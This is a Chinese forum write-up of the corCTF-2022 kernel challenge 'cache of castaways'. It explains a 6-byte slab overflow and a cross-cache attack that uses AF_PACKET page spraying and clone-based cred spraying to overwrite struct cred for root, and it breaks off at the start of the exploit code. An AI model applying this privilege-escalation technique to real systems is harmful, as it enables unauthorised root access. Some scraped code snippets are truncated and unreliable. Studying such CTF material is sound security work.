



# [调试逆向] corCTF-2022 cache of castways-跨缓存溢出攻击

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1849729
- 抓取时间: 2026-11-01T21:55:33

## Kernel Heap - Cross Cache Overflow

### 例题：corCTF2022-cache of castways

题目首先给出 `README`，我们来康康，BitsByWill师傅给出了这样一段提示：

> After repeated attacks on poor kernel objects, I've decided to place pwners in a special isolated place - a marooned region of memory. Good luck escaping out of here :^)

意思很明显，内核大师已经不满足于通用object的漏洞利用，直接告诉我们需要在一个隔离的环境完成利用，害怕 :^(

#### 1. 题目逆向

[`www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html`](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html) 中已经给出了完整的源码，我们就不需要模拟当时比赛的情景，直接聚焦于漏洞的利用当中，这里感谢BitsByWill师傅在题目当中同时提供了内核 `config` 和带有调试符号的内核映像，这为之后的学习省去了很多不必要的麻烦

首先查看启动脚本

```
#!/bin/sh

exec qemu-system-x86_64 \
    -m 4096M \
    -nographic \
    -kernel bzImage \
    -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=on" \
    -netdev user,id=net \
    -device e1000,netdev=net \
    -no-reboot \
    -monitor /dev/null \
    -cpu qemu64,+smep,+smap \
    -initrd initramfs.cpio.gz \
```

4G的内存，同时开启了 `smep`、`smap`、`kpti`

实际上没必要查看，因为肯定保护全开orz

然后就是文件系统的初始化脚本，发现其中插入了我们需要分析的漏洞模块 `cache_of_castway.ko`

启动！我朝好帅


##### `init_castaway_driver`

首先来看 `init` 函数

```
#define OVERFLOW_SZ 0x6

#define CHUNK_SIZE 512

#define MAX 8 * 50

struct castaway_cache

{

    char buf[CHUNK_SIZE];

};

static int init_castaway_driver(void)

{

    castaway_dev.minor = MISC_DYNAMIC_MINOR;

    castaway_dev.name = DEVICE_NAME;

    castaway_dev.fops = &castaway_fops;

    castaway_dev.mode = 0644;

    mutex_init(&castaway_lock);

    if (misc_register(&castaway_dev))

    {

        return -1;

    }

    castaway_arr = kzalloc(MAX * sizeof(castaway_t *), GFP_KERNEL);                 //400个 castaway_t大小的数组

    if (!castaway_arr)

    {

        return -1;

    }

    castaway_cachep = KMEM_CACHE(castaway_cache, SLAB_PANIC | SLAB_ACCOUNT);         //出题者自行构造的隔离kmem_cache

    if (!castaway_cachep)

    {

        return -1;

    }

    printk(KERN_INFO "All alone in an castaway cache... \n");

    printk(KERN_INFO "There's no way a pwner can escape!\n");

    return 0;

}
```

其中 `KMEM_CACHE` 是一个创建 `kmem_cache` 的宏，如下：

```
/*
 * Please use this macro to create slab caches. Simply specify the
 * name of the structure and maybe some flags that are listed above.
 *
 * The alignment of the struct determines object alignment. If you
 * f.e. add ____cacheline_aligned_in_smp to the struct declaration
 * then the objects will be properly aligned in SMP configurations.
 */
#define KMEM_CACHE(__struct, __flags)                                        \
                kmem_cache_create(#__struct, sizeof(struct __struct),        \
                        __alignof__(struct __struct), (__flags), NULL)
```

该 `kmem_cache` 的 object 大小为 512 字节，可以注意到创建 `kmem_cache` 时带有 `SLAB_ACCOUNT|SLAB_PANIC` 这个 flag，我们查看内核地的配置发现 `CONFIG_MEMCG_KMEM=y`，因此通过该 `kmem_cache` 创建的 slab 将会被归于一个单独的 slab 池当中，从而造成一个完全隔离的环境，而这里为了凸显这个 “完全”，同样的内核配置中 `CONFIG_SLAB_MERGE_DEFUALT` 选项被禁止，以防通过使用 [`elixir.bootlin.com/linux/latest/source/mm/slab_common.c#L186`](https://elixir.bootlin.com/linux/latest/source/mm/slab_common.c#L186) 来复用同样类似的标志以及大小的 `kmem_cache`

##### `castaway_ioctl`

```
typedef struct

{

    int64_t idx;

    uint64_t size;

    char *buf;    

}user_req_t;

static long castaway_ioctl(struct file *file, unsigned int cmd, unsigned long arg)

{

    user_req_t req;

    long ret = 0;

    if (cmd != ALLOC && copy_from_user(&req, (void *)arg, sizeof(req)))

    {

        return -1;

    }

    mutex_lock(&castaway_lock);

    switch (cmd)

    {

        case ALLOC:

            ret = castaway_add();

            break;

        case EDIT:

            ret = castaway_edit(req.idx, req.size, req.buf);

            break;

        default:

            ret = -1;

    }

    mutex_unlock(&castaway_lock);

    return ret;

}
```

给出了用户传参规则，`ioctl` 实现了两种功能，下一个

##### `castaway_add`

```
static long castaway_add(void)
{
    int idx;
    if (castaway_ctr >= MAX)
    {
        goto failure_add;
    }
    idx = castaway_ctr++;
    castaway_arr[idx] = kmem_cache_zalloc(castaway_cachep, GFP_KERNEL_ACCOUNT);

    if (!castaway_arr[idx])
    {
        goto failure_add;
    }

    return idx;

    failure_add:
    printk(KERN_INFO "castaway chunk allocation failed\n");
    return -1;
}
```

通过自带的 `kmem_cache` 来分配一个 obj，然后将其地址给到全局的 object 数组当中

##### `castaway_edit`

```
typedef struct

{

    char pad[OVERFLOW_SZ];

    char buf[];

}castaway_t;

static long castaway_edit(int64_t idx, uint64_t size, char *buf)

{

    char temp[CHUNK_SIZE];

    if (idx = MAX || !castaway_arr[idx])

    {

        goto edit_fail;

    }

    if (size > CHUNK_SIZE || copy_from_user(temp, buf, size))

    {

        goto edit_fail;

    }

    memcpy(castaway_arr[idx]->buf, temp, size);

    return size;

    edit_fail:

    printk(KERN_INFO "castaway chunk editing failed\n");

    return -1;

}
```

这里我们每次调用 `memcpy` 都是从 object 的第 6 字节才开始拷贝一整个块的数据，因此存在 6 字节的溢出

再次查看配置，其中也开启了下面这两个好伙伴


```
CONFIG_SLAB_FREELIST_RANDOM=y    
CONFIG_SLAB_FREELIST_HARDENED=y
```

## 2. 利用思路

按照出题人所说，题目在基本上内核保护全开的情况下，漏洞模块中的 `kmem_cache` 存在隔离且无法复用，并且内容当中不存在任何指针，`free_object` 的 `freelist` 指针也并不在开头而是被放在了中间，给到我们的条件就仅仅只有一个六字节的溢出，似乎已经到了绝境，但是是否有一种方法来打破这层囚笼呢？

事实上确实存在这一手法，既然说我们分配的 object 已经隔离了起来，不可能利用不同 `kmem_cache` 之间的 object 来实现利用，但是继续往底层考量，我们要知道 Linux 内核分配，在 slub 算法之前还存在一个算法，那就是伙伴系统（Buddy System），一切以页为单位的分配均是从他这儿来分配，当然我们的 `kmem_cache` 也不例外，如果我们能进行恰当的布局，就可以使得不同的 `kmem_cache` 相邻，此时我们就可能造成隔离 `kmem_cache` 之间 object 的溢出！


上图就是其中大致的场景，如果我们的 vulnerable `kmem_cache` 同其他通用 `kmem_cache` 出现隔离，我们仍能利用 buddy system 分配连续块的特性来造成不同结构间的溢出，关于该技巧的细节，可以通过阅读下面博客进行理解：

- [grsecurity.net/how_autoslab_changes_the_memory_unsafety_game](https://grsecurity.net/how_autoslab_changes_the_memory_unsafety_game)
- [etenal.me/archives/1825](https://etenal.me/archives/1825)
- [googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html)

事实上 BitsByWill 师傅也推荐了该博客。



这里直观上来看就好像是将我们平时用到的 object 提升了一个量级，变成了 slab 了。

当一个 slab 页面被释放给伙伴系统时，考虑到该内存页面应该被内核回收，它将在稍后的某个时刻被重用。`cross_cache_overlapping` 的技术是释放 slab 页中的所有 memory slot，或者叫做我们平时讨论的 object，强制释放 slab 页。然后，喷射另一种类型的对象来分配新的 slab 页面，以回收释放的 slab 页面。如果攻击成功，释放的对象的内存将被另一种类型的对象占用。过去，利用 Linux 内核内存安全漏洞进行跨缓存攻击的做法并不多见。在通用缓存中这样做不仅没有必要，而且不稳定。特别是对于经常使用的通用缓存，攻击会遭受分配不可控带来的噪音，也就是在分配过程中可能分配多种不同类型的结构体。例如，当内核进行未知分配时，slab 页中所有 memory slot 的释放都会失败，从而导致无法通过另一个 slab 页回收该 slab 页。与在通用缓存上执行交叉缓存相比，在专用对象缓存上几乎没有噪音。这是因为每个分配都会进入自己的缓存，包括来自内核的未知分配，这减少了缓存中未知分配的可能性。这样，攻击者就可以可靠地释放专用缓存的 slab 页面来执行跨缓存攻击。

这么说来，这个专用缓存对象对我们来说，既是挑战，也是馈赠~

既然我们准备使用跨缓存对象进行溢出，我们就首先需要堆喷我们的 vulnerable object，同时我们也要堆喷 victim object，并且我们要保证 victim object 所位于的 slab 要恰好位于 vulnerable object 的下方。

我们如何来达成上述条件呢，那就需要使用到 Page-Level heap fengshui，也就是页级堆风水。

## 3. 页级分配原语

该节参考 [googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html)

### AF_PACKET sockets 基础知识

首先就是对于 AF_PACKET sockets 的基本解释。

AF_PACKET seckets 允许用户在设备驱动程序级别发送或接收数据包，要创建 AF_PACKET sockets，进程必须在管理其网络命名空间的用户命名空间中具有 `CAP_NET_RAW` 功能。应该注意的是，如果内核启用了非特权用户命名空间，那么非特权用户就能够创建数据包套接字。

他在大众的认知下往往被常用于 `tcpdump` 对于网络接口包的嗅探，google 团队也给出了一个例子，是利用 `strace` 来跟踪后面指令使用到的系统调用。

```
# strace tcpdump -i eth0

...

socket(PF_PACKET, SOCK_RAW, 768)        = 3

...

bind(3, {sa_family=AF_PACKET, proto=0x03, if2, pkttype=PACKET_HOST, addr(0)={0, }, 20) = 0

...

setsockopt(3, SOL_PACKET, PACKET_VERSION, [1], 4) = 0

...

setsockopt(3, SOL_PACKET, PACKET_RX_RING, {block_size=131072, block_nr=31, frame_size=65616, frame_nr=31}, 16) = 0

...

mmap(NULL, 4063232, PROT_READ|PROT_WRITE, MAP_SHARED, 3, 0) = 0x7f73a6817000

...
```

这里不放我自己虚拟机的情况是因为我的 `eth0` 没怎么经常收发包（bushi

之后也给出利用的具体步骤：

- 首先创建出一个 `socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL))`
- 将该 socket 绑定在 `eth0` 接口
- 环形缓冲区版本通过 socket option：`PACKET_VERSION` 来设置为 `TPACKET_V2`
- 使用 socket option：`PACKET_RX_RING` 来创建该环形缓冲区
- 将环形缓冲区映射在用户空间

经过这一系列系统调用，Linux 内核将会把通过网络接口 `eth0` 的网络 packet 放入环形缓冲区，然后 `tcpdump` 再从该缓冲区在用户空间的映射来读取信息。



`ak01.png` (35.63 KB, 下载次数: 0)

[forum.php?mod=attachment&aid=MjY2MDY0MXw2MGQ2Zjk2OHwxNzkzNTcwMTMxfDE2ODA4NnwxODQ5NzI5&nothumb=yes](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY2MDY0MXw2MGQ2Zjk2OHwxNzkzNTcwMTMxfDE2ODA4NnwxODQ5NzI5&nothumb=yes)

2023-11-30 15:12 上传

### AF_PACKET sockets 内核体现

首先当我们创建一个 AF_PACKET socket 的时候，会在内核创建下述结构体：

```
struct packet_sock {
        /* struct sock has to be the first member of packet_sock */
        struct sock                sk;

        ...

        struct packet_ring_buffer        rx_ring;                 //通过setsocketopt选项PACKET_RX_RING(recive)来创建 
        struct packet_ring_buffer        tx_ring;                 //通过setcosketopt选项PACKET_TX_RING(transmit)来创建

        ...

        enum tpacket_versions        tp_version;                 //用来设置环形缓冲区版本

        ...

        int                        (*xmit)(struct sk_buff *skb);

        ...
};
```

下面是对于环形缓冲区数据结构体 `struct packet_ring_buffer` 的解释：

```
struct pgv {

        char *buffer;

};

struct packet_ring_buffer {

        struct pgv                *pg_vec;

        ...

        union {

                unsigned long                        *rx_owner_map;

                struct tpacket_kbdq_core        prb_bdqc;

        };

};
```

这里我们的 `pg_vec` 字段是一个指向 `struct pgv` 结构体的指针，然后每一个 `struct pgv` 结构体都包含着一个指向某个 block 的指针，如下 google 团队图：



`3.png` (24.03 KB, 下载次数: 1)

[forum.php?mod=attachment&aid=MjY2MDY0MHxjY2ExN2RlOHwxNzkzNTcwMTMxfDE2ODA4NnwxODQ5NzI5&nothumb=yes](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY2MDY0MHxjY2ExN2RlOHwxNzkzNTcwMTMxfDE2ODA4NnwxODQ5NzI5&nothumb=yes)

2023-11-30 15:11 上传

下面我们来看环形缓冲区其中的 `prb_bdqc` 字段：

```
/* kbdq - 内核块描述队列 */
struct tpacket_kbdq_core {

        ...

        unsigned short        blk_sizeof_priv;         //标志着每个block中私有区域的大小

        ...

        char                *nxt_offset;                         //指向活动block内， 同时指向下一个packet保存的地方

        ...

        struct timer_list retire_blk_timer;         //描述了在超时时退出当前块的定时器
};

struct timer_list {
        struct hlist_node        entry;
        unsigned long                expires;
        void                        (*function)(struct timer_list *);
        u32                        flags;

#ifdef CONFIG_LOCKDEP
        struct lockdep_map        lockdep_map;
#endif
};
```

### `packet_set_ring()` 创建 ring buffer

我们一般可以通过 `packet_setsocketopt` 函数并且附带特定的 socket 选项来进行处理 socket 事件，例如使用 `PACKET_VERSION` 选项来设置环形缓冲区版本。

当我们设置 `PACKET_RX_RING` 来创建负责接收的环形缓冲区，其最终会使用 `packet_set_ring()` 函数来进行处理，如下是较为重要部分。

首先他会进行一系列检查：

```
err = -EINVAL;

                if (unlikely((int)req->tp_block_size tp_block_size)))

                        goto out;

                min_frame_size = po->tp_hdrlen + po->tp_reserve;

                if (po->tp_version >= TPACKET_V3 &&

                    req->tp_block_size req3.tp_sizeof_priv) + min_frame_size)

                        goto out;

                if (unlikely(req->tp_frame_size tp_frame_size & (TPACKET_ALIGNMENT - 1)))

                        goto out;

                rb->frames_per_block = req->tp_block_size / req->tp_frame_size;

                if (unlikely(rb->frames_per_block == 0))

                        goto out;

                if (unlikely(rb->frames_per_block > UINT_MAX / req->tp_block_nr))

                        goto out;

                if (unlikely((rb->frames_per_block * req->tp_block_nr) !=

                                        req->tp_frame_nr))

                        goto out;
```

然后就会为环形缓冲区分配 block：

```
err = -ENOMEM;
                order = get_order(req->tp_block_size);
                pg_vec = alloc_pg_vec(req, order);
                if (unlikely(!pg_vec))
                        goto out;
```

该 `alloc_pg_vec` 函数实际上调用了内核当中的内存分配函数，这里注意是 `block_nr` 个咱们提供的 `order` 大小，这里的 `order` 取决于咱们的 `tp_block_size`，也就是 BitsByWill 师傅提到他的原因。

```
static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)

{

        ...

        pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);

        if (unlikely(!pg_vec))

                goto out;

        for (i = 0; i 
```

在最后 `packet_set_ring()` 函数会调用 `init_prb_bdqc()` 函数


``` 
                switch (po->tp_version) {
                case TPACKET_V3:
                        /* Block transmit is not supported yet */
                        if (!tx_ring) {
                                init_prb_bdqc(po, rb, pg_vec, req_u);

                        ...

                }
```

`init_prb_bdqc`函数的功能是将环形缓冲区的参数复制到 `struct pack_ring_buffer.prb_bdqc`字段，根据计算设置参数，然后设置 block retire timer,最后调用 `prb_open_block`函数来初始化第一个 block

```
static void init_prb_bdqc(struct packet_sock *po,

                        struct packet_ring_buffer *rb,

                        struct pgv *pg_vec,

                        union tpacket_req_u *req_u)

{

        struct tpacket_kbdq_core *p1 = GET_PBDQC_FROM_RB(rb);

        struct tpacket_block_desc *pbd;

        memset(p1, 0x0, sizeof(*p1));

        p1->knxt_seq_num = 1;

        p1->pkbdq = pg_vec;

        pbd = (struct tpacket_block_desc *)pg_vec[0].buffer;

        p1->pkblk_start        = pg_vec[0].buffer;

        p1->kblk_size = req_u->req3.tp_block_size;

        p1->knum_blocks        = req_u->req3.tp_block_nr;

        p1->hdrlen = po->tp_hdrlen;

        p1->version = po->tp_version;

        p1->last_kactive_blk_num = 0;

        po->stats.stats3.tp_freeze_q_cnt = 0;

        if (req_u->req3.tp_retire_blk_tov)

                p1->retire_blk_tov = req_u->req3.tp_retire_blk_tov;

        else

                p1->retire_blk_tov = prb_calc_retire_blk_tmo(po,

                                                req_u->req3.tp_block_size);

        p1->tov_in_jiffies = msecs_to_jiffies(p1->retire_blk_tov);

        p1->blk_sizeof_priv = req_u->req3.tp_sizeof_priv;

        rwlock_init(&p1->blk_fill_in_prog_lock);

        p1->max_frame_len = p1->kblk_size - BLK_PLUS_PRIV(p1->blk_sizeof_priv);

        prb_init_ft_ops(p1, req_u);

        prb_setup_retire_blk_timer(po);

        prb_open_block(p1, pbd);

}
```

而 `prb_open_block()`函数中实现的一个功能就是将 `struct tpacket_kbdq_core->nxt_offset`设置在每个块私有区域之后

```
static void prb_open_block(struct tpacket_kbdq_core *pkc1,
        struct tpacket_block_desc *pbd1)
{
        ...

        pkc1->pkblk_start = (char *)pbd1;
        pkc1->nxt_offset = pkc1->pkblk_start + BLK_PLUS_PRIV(pkc1->blk_sizeof_priv);

        ...
}
```

以上我们就得到了一个内核当中以页为单位的分配原语，这有利于我们进行页级的堆风水

值得注意的是，在BitsByWill师傅的博客中并没有完全采取当初p0团队的分配方式，其中不同的点就是该博客当中使用的是 `TPACKET_V1`/`TPACKET_V2`，并且在创建 ring buffer的时候创建的是 `PACKET_TX_RING`类型的缓冲区，该缓冲区同 `PACKET_RX_RING`的区别在上面代码注释提了一嘴，但是这并不会影响我们的页分配，如下是我们 `packet_setsockopt()`部分源码

```
        case PACKET_RX_RING:
        case PACKET_TX_RING:
        {

                union tpacket_req_u req_u;

                int len;

                lock_sock(sk);

                switch (po->tp_version) {

                case TPACKET_V1:

                case TPACKET_V2:

                        len = sizeof(req_u.req);

                        break;

                case TPACKET_V3:

                default:

                        len = sizeof(req_u.req3);

                        break;

                }

                if (optlen 
```

可以看到这俩区别在分配的时候不大，最后仍是调用了 `packet_set_ring`函数，后面的步骤在上面也已经讲解就不多说了

这里需要额外提一下，因为我们直接是调用到了page分配这层，因此我们提供的是 `order`，而这个`order`是由我们最开始传入的 `struct tpacket_req_u` `req_u->req->tp_block_size`来决定的，根据 `packet_setsockopt()`进行分析不难得出这一点

而我们如果说要释放掉我们分配的 `block_nr`个相应 `order`的block,只需要简单的关闭对应 `socket`的`fd`指针即可,但是这里仍然会存在一个问题

> 
The only issue is that default low privileged users can’t utilize these functions in the root namespace

也就是说默认的低特权用户不能在root命名空间下用到上面这些函数，但我们通常可以在许多linux系统中创建自己的非特权用户命名空间。虽然说我们仍然可以通过大量堆喷某个数据结构来耗尽我们某个 `order`下`free_list`的block， 典型的例子就是常用的 `msg_msg`了，但他使用通用 `slab`进行分配不太可靠，最重要的是本题禁止用它了已经 :^(

## 初步构造思路

出题人给出了一个十分优雅的提权手法，那就是修改 `cred`,他的好处在于根本不用担心 `KASLR`,泄露地址，构造ROP链等等，我们都知道在现如今的版本， `cred`位于一个独立的 `kmem_cache`当中，名叫 `cred_jar`，我们可以首先耗尽该 `cred_jar`，因此未来他将使得分配器从伙伴系统 `order_0`处分配页面,并且将高阶 `order`的block进行拆解分配 ，这里我们需要free掉一部分，以免他们进行合并返回高阶 `order_*`，然后我们需要再次堆喷 `cred`,然后我们再次释放一些`pages`,之后再次堆喷攻击对象，并且至少要有一个攻击对象需要在 `cred`所在`slab`的正上方

那么该如何大量堆喷 `cred`结构体呢，我们只需要通过 `fork`大量创建子进程即可，虽说在 `fork`的过程中会产生大量噪音(分配过程中对其他无关对象的分配),但作者说这并不影响他们这个初始化堆喷的过程

## fork中噪声的处理

在构造页级堆风水的过程当中，对于内存的分配十分严格，因此我们需要尽量减少噪声对于我们的干扰

在 `fork`的过程当中，最为核心的函数就是 `kernel_clone`,我们需要牢记这一点，如果我们在传统 `fork`调用的过程当中没有设置任何 `kernel_clone_args`的`flag`参数，那么就会出现以下步骤：

`kernel_clone_args()`函数调用 `copy_process()`函数

`copy_process()`函数调用 `dup_task_struct()`函数，他将从目标内核系统中 `order_2`分配出一个 `task_struct`数据结构，然后 `dup_task_struct()` 调用 `alloc_thread_stack_node()`,如果说没有缓存栈可用的化，那么这个函数将使用 `__vmalloc_node_range`来分配一个虚拟连续的16kb区域来作为内核线程栈，这里通常会需要分配四个 `order_0`的`pages`

上面的 `vmalloc`将会分配一个 `kmalloc-64`的`chunk`来帮助建立vmalloc虚拟映射，然后，内核将会从 `vmap_area_cachep` 分配两个 `vmap_area` `chunk`。在这个系统和内核当中，第一个是从 `alloc_vmap_area`当中分配,第二个可能是从 `preload_this_cpu_lock`中分配

然后 `copy_process()`函数将会调用 `call_creds()`,他将会触发从 `prepare_creds()`中对于 `creds`的分配，这里如果设置了 `CLONE_THREAD`参数的化就不会发生这一步 

```
int copy_creds(struct task_struct *p, unsigned long clone_flags)
{
       struct cred *new;
       int ret;

#ifdef CONFIG_KEYS_REQUEST_CACHE
       p->cached_requested_key = NULL;
#endif

       if (
#ifdef CONFIG_KEYS
               !p->cred->thread_keyring &&
#endif
               clone_flags & CLONE_THREAD
           ) {
               p->real_cred = get_cred(p->cred);
               get_cred(p->cred);
               alter_cred_subscribers(p->cred, 2);
               kdebug("share_creds(%p{%d,%d})",
                      p->cred, atomic_read(&p->cred->usage),
                      read_cred_subscribers(p->cred));
               inc_rlimit_ucounts(task_ucounts(p), UCOUNT_RLIMIT_NPROC, 1);
               return 0;
       }

       new = prepare_creds();

...
```

在这之后 `copy_process()`函数开启了一系列 `copy_*()`函数，这个*是一系列进程所需要的资源，而这些函数便会触发内存的分配，除非设置了其各自的 `CLONE`标志，在平常的 `fork`当中，人们更希望从 `files_cache`,`fs_cache`,`sighand_cahe` 和 `signal_cache`当中分配新的`chunk`。其中最大的噪音是当没有设置 `CLONE_VM`标志位时建立`mm_struct`而产生的，而这反而会在 `vm_area_struct`,`anon_vma_chain`和 `anon_vma`等缓存当中触发大量内存分配活动，而这里所有分配都由该系统上的 `order_0`页面支持

```
if (retval)
               goto bad_fork_cleanup_audit;
       retval = copy_semundo(clone_flags, p);
       if (retval)
               goto bad_fork_cleanup_security;
       retval = copy_files(clone_flags, p, args->no_files);
       if (retval)
               goto bad_fork_cleanup_semundo;
       retval = copy_fs(clone_flags, p);
       if (retval)
               goto bad_fork_cleanup_files;
       retval = copy_sighand(clone_flags, p);
       if (retval)
               goto bad_fork_cleanup_fs;
       retval = copy_signal(clone_flags, p);
       if (retval)
               goto bad_fork_cleanup_sighand;
       retval = copy_mm(clone_flags, p);
       if (retval)
               goto bad_fork_cleanup_signal;
       retval = copy_namespaces(clone_flags, p);
       if (retval)
               goto bad_fork_cleanup_mm;
       retval = copy_io(clone_flags, p);
       if (retval)
               goto bad_fork_cleanup_namespaces;
       retval = copy_thread(p, args);
       if (retval)
               goto bad_fork_cleanup_io;
```

最后，内核将分配出一个 `pid` `chunk`，其中所属的 `slab`也来自于 `order_0`

下面便是忽略vmalloc，仅仅专注于 slab分配的情况下，单一一个 `fork`调用在这个系统当中将会触发的分配

```
task_struct
kmalloc-64
vmap_area
vmap_area
cred_jar
files_cache
fs_cache
sighand_cache
signal_cache
mm_struct
vm_area_struct
vm_area_struct
vm_area_struct
vm_area_struct
anon_vma_chain
anon_vma
anon_vma_chain
vm_area_struct
anon_vma_chain
anon_vma
anon_vma_chain
vm_area_struct
anon_vma_chain
anon_vma
anon_vma_chain
vm_area_struct
anon_vma_chain
anon_vma
anon_vma_chain
vm_area_struct
anon_vma_chain
anon_vma
anon_vma_chain
vm_area_struct
vm_area_struct
pid
```

可以看到确实产生了很多噪音，在经过 BitsByWill师傅分析源码还有查看clone手册的努力下(bushi，使用以下的`flag`能极大的降低`fork`当中产生的噪音：

```
CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND
```

当设置了这些`flags`之后，我们产生的噪音将会降低至下述情况


```
task_struct
kmalloc-64
vmap_area
vmap_area
cred_jar
signal_cache
pid
```

注意到这里仍然会由来自于`vmalloc`的4个`order_0`的page。但这对于我们来说是可以接受的。这里还存在的问题是我们的子进程无法真正写入任何进程内存，因为它和父进程共享相同的虚拟内存，所以我们必须使用仅依赖于寄存器的shellcode来检查权限提升是否成功

## 4> 4. 漏洞利用

经过上述一大堆知识的铺垫，现在开始考虑该漏洞的利用,以下是利用的概述

- 利用`packet_setsockopt()`函数来大量堆喷`order_0`的block，并且在每两个分配的pages当中释放其中一个，这样一来我们就拥有了很多`order_0`的对象，并且他不会合并到`order_1`当中去。而我们最初的exploit是使用`fork`来开辟一个新的特权用户空间从而使得我们可以在其中使用这些页级分配原语
- 然后我们大量使用`clone`，并且搭配上面说到的`flag`参数来分配我们的`cred` objects,然后我们释放剩余的`order_0` pages,然后我们再次大量堆喷我们的易受攻击的对象，这里会构造出一种我们的vuln objects所在的page是刚好位于我们某个`cred` page的上方

### 5> Step I: 前期准备

我们之前分析页级分配原语的时候已经说明，在`root`的命名空间下我们是无法使用该原语的，所以我们需要开辟一个子进程，然后利用`unshare`系统调用来创建一个新的子命名空间并应用到子进程当中，这样我们能保证新创建的子进程是可以使用该页级分配系统原语的

而至于我们页级堆喷的方式，那就是使用管道，让父子进程之间通信，然后传递命令和结果，其中该子进程充当一个中间命令管理的作用

### 5> Step II: 排干`cred_jar`

这里排空他是为了后面我们可以调用`fork`来从buddy system获取空页面，但这里的`fork`并不是`fork`函数，而是使用了更为精妙的`clone`系统调用，他与`fork`函数的作用基本一致，但是他能实现更为细致的操作，就比如说分配标志的选则

### 5> Step III: 堆喷大量page

这里我们就可以利用之前创建的管理页级堆喷的子进程使用`setsockopt`来大量堆喷单页面，这里需要注意，我们需要提权的命名空间为原本的`root`命名空间，而我们创建的管理子进程是处于自己的命名空间的，所以我们之后堆喷的victim obj，也就是`cred`是需要在重新分配的子进程（若没经过设置，他同父进程一样处于`root`命名空间）当中，这样才可以真正修改某个子进程在`root`命名空间下的权限，这样我们就可以使得高`order`的页面均被拆分并且分配，然后我们，然后我们这里仅仅释放每两个页面中的后一页，这里为什么能够保证我们页面都是顺序分配的呢，那是因为我们从伙伴系统高阶拆分的页面在这里会是物理连续的，所以造成了我们基本上可以构造成下面这种情况


### 5> Step IV: 分配victim page

这里的victim struct我们选则了上面讲到的`struct cred`，这里我们只需要覆盖`cred.usage`字段为1即可进行提权，这里是一个位于`struct cred`的开头4字节的字段，满足我们溢出6字节的漏洞，

这里存在一定的噪声，也就是额外的4个`order_0`页面


### 5> Step V: 分配vulnerable obj

也就是释放咱们上面的红色快，这里是为了分配之后咱们的vulnerable ojbect,情况如下：


这样就造成了我们的cross cache overflow，然后我们在大量越界写的过程当中就会写入我们某个子进程`cred`的头六个字节，四字节的1和二字节的0，这里两字节不多不少刚好覆盖原本的`0x3E8`

效果如下：


最终exp如下：

```
#define _GNU_SOURCE 

#include 

#include 

#include 

#include 

#include 

#include 

#include 

#include 

#include 

#include 

#include 

#define PRINT_ADDR(str, x) printf("\033[0m\033[1;34m[+]%s \033[0m:0x%lx\n", str, x)

void info_log(char* str){

     printf("\033[0m\033[32m[+]%s\033[0m\n",str);

}

void error_log(char* str){

  printf("\033[0m\033[1;31m[-]%s\033[0m\n",str);

  exit(1);

}

#define ALLOC 0xcafebabe

#define DELETE 0xdeadbabe

#define EDIT 0xf00dbabe

